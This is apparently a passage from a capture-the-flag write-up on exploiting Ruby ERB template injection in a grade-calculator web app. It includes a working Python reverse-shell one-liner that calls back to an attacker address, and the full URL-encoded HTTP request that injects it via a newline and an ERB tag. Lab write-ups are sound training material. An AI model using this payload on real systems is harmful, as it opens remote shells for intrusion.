 ```
        erb :'weighted_grade_results'
    else
        @result = "Malicious input blocked"
        erb :'weighted_grade_results'
    end
end
```

We can see the flaw above. The line `@result = ERB.new("Your total grade ... ").result(binding)` directly executes a string of Ruby code constructed from user input. Oops! Sanatize your inputs!

Some further enumeration including `which python`, `which ruby` and some others we can simply craft a quick `reverse shell` and catch it.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

The above shell needs to be `URL Encoded` as well. So this was our final request sent:

```
POST /weighted-grade-calc HTTP/1.1

Host: 10.129.229.121

Content-Length: 267

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.129.229.121

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://10.129.229.121/weighted-grade-calc

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close



category1=test73%0a<%25%3d+`%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%34%2e%32%22%2c%36%39%36%39%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%73%68%22%29%27`%25>&grade1=1&weight1=20&category2=vulns&grade2=2&weight2=20&category3=pwns&grade3=3&weight3=60&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```
